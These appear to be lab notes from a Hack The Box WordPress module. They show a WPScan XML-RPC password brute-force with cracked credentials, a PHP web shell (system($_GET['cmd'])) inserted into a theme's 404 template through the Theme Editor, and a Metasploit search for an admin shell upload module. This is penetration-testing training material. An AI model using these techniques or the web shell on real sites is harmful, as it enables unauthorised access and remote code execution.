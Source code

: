 ## WPScan 

### WPscan - XMLRPC

```
duongquanghao@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

### Remote Code Execution (RCE) via the Theme Editor

Đăng nhập với admin, sau đó vào Theme Editor

![image](https://hackmd.io/_uploads/HkxSGFkTkl.png)

![image](https://hackmd.io/_uploads/HJfIMFJT1g.png)

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

## Attacking WordPress with Metasploit

### Automating WordPress Exploitation

**Starting Metasploit Framework**

```
duongquanghao@htb[/htb]$ msfconsole
```

**MSF Search**

```
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```
